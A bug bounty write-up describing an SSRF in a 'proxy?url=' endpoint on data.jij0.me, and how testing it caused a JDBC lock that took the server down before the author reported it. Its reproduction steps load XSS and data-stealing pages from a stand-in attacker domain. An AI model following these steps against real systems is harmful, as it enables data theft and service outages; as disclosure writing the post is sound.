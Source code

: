 ```yaml
---
title: 'The SSRF that Brought down a Server'
metaTitle: 'SSRFtoDOS'
metaDesc: 'dev@jijo:~$whoami'
socialImage: images/ssrf.png
date: '2023-01-07'
tags:
  - dupe ssrf bug
---
```


# The SSRF that Brought down a Server

## How we got there

Server-Side Request Forgery (SSRF) is a type of web vulnerability that allows an attacker to send a malicious request from a vulnerable server to another server or network service. The attack is performed by manipulating a server-side script to send a request to a different server or service, which can be controlled by the attacker.

An SSRF vulnerability can be exploited in a number of ways, such as gaining unauthorized access to internal network resources, stealing sensitive information, or performing a denial of service (DoS) attack.

For example, if a server-side script is using user-supplied data to construct a URL and the script doesn't properly validate or sanitize the input, an attacker could craft a special URL that would cause the script to send a request to a server or service controlled by the attacker. This can allow the attacker to access sensitive information, such as internal network IP addresses or even steal data or perform further attacks.

It's important to note that SSRF is not only limited to web-based systems, it could be found in any application or service that can make an outgoing request to another service, such as a command-line tool or a mobile app. Therefore, it's important for developers to be aware of SSRF and ensure that user-supplied input is properly sanitized and validated before being used in any kind of request.

Recently, I discovered a Server-Side Request Forgery (SSRF) vulnerability on the website [data.jij0.me](/post/why). The website contains an endpoint called "proxy" that allows for the rendering of other webpages or websites under the context of data.jij0.me. This vulnerability can be exploited in a number of ways, such as stealing user information through Cross-Origin Resource Sharing (CORS) or performing a reflected cross-site scripting (XSS) attack.

data.jij0.me contains a proxy [https://data.jij0.me/proxy?url= ] endpoint that can be utilized to render other webpages or websites under the context of data.jij0.me
I found that this can be utilized to steal user info via to cors or perform reflected xss

## Reproduction Steps

tep-by-Step Reproduction of SSRF Vulnerability on data.jij0.me:

1. Visit the following URL: <https://data.jij0.me/proxy?url=https://example.com>
2. The website should render the example.com domain within the context of data.jij0.me.
3. To exploit the vulnerability through reflected XSS, host an XSS HTML file on a domain you control.
4. Use the "proxy" endpoint by visiting the following URL: <https://data.jij0.me/proxy?url=https://your-controlled-domain.com/xss-file.html>
5. This should execute the XSS attack within the context of data.jij0.me.
6. To exploit the vulnerability through CORS stealing, host a CORS stealing HTML file on a domain you control.
7. Use the "proxy" endpoint by visiting the following URL: <https://data.jij0.me/proxy?url=https://your-controlled-domain.com/cors-stealing-file.html>
8. This should steal data from the data.jij0.me website and send it to your controlled domain.
9. It also could cause a Hit GenericJDBCException resulting in a JDBC lock and potentially taking the server down.

## The JDBC Lock

When testing out my CORs stealing file the worst came happend `(As a bug hunter, this is one of your worst nightmare)`, my test seemed to not properly process at first so i started probing around to see if i could include the `/api/v1/*` response from their api to my server.
Boom, out of nowhere i saw a `500 Error :: JDBC error`, I had no idea what that was at the moment and assumed its just another snag in the journey.

```bash

A JDBC lock is a type of lock that is used to control concurrent access to a database by multiple users or applications. It is implemented using the Java Database Connectivity (JDBC) API, which is a Java-based application programming interface (API) for connecting to relational databases.

A JDBC lock is used to prevent multiple users from modifying the same data simultaneously, which can cause data inconsistencies. When a user requests a lock on a specific database resource, the database management system (DBMS) checks if the resource is available. If the resource is available, the lock is granted, and the user can access and modify the data. If the resource is already locked by another user, the DBMS will put the requesting user in a queue to wait for the lock to be released.

A JDBC lock can be implemented at different levels of granularity, such as at the row, table, or even the entire database level.

In the scenario described above, the vulnerability is causing a "Hit GenericJDBCException" which is potentially resulting in a JDBC lock which could take the server down. This could happen if the JDBC lock is not releasing after a certain amount of time, or if multiple requests are being made at the same time, causing the server to become overwhelmed.
```

I decided to continue only to see the sdame error, i read the stack trace on the 500 error page and saw a line that said `jdbc lock....`, my mind went `crap`,

> i remembered reading a blog some years back about how a bughunter was testing race condition on a payment page of a bugbounty program and hit the same error causing other people not to be able to use the website to buy stuff. Ahaaah turns out this wasn't really new to me, just hadn't experienced it first hand.

At this point i knew i f*ed up, i started wishing that it was only the proxy endpoints, but as we all know wishes are always just wishes, and if they were horses bergars would ride. I opened up the root of the website in my browser and would you know it, JDBC error everywhere, so i know now for sure i have f**ed. I even thought that the issue affected only my network, so i tested on other IPs and devices and i realised that the server was down for everyone.

I started to tense up as hell, i didn't know how the program would react.

![basic](/images/poc/dos.png)

## Report

I found this same bug present in two other enviroments, dev, beta.
So i wrote up a detailed reports and reported, duped this ones.
![basic](/images/poc/dup.png)

I also contacted the program as fast as i could to tell them about the jdbc lock, the server was back online in an hour or so, `i never got to know if the server autorestarted or an alert was created by the Siems and IT restarted the server`

## Contacts

### @[github](https://github.com/crypt0g30rgy)  @[twitter](https://twitter.com/crypt0g30rgy) @[LinkedIn](https://www.linkedin.com/in/george-maina-waithaka-95a465214/)   @[Intigriti](https://app.intigriti.com/profile/g30rgyth3d4rk) @[hackerone_old](https://hackerone.com/crypt0p3n3tr4t0r?type=user)

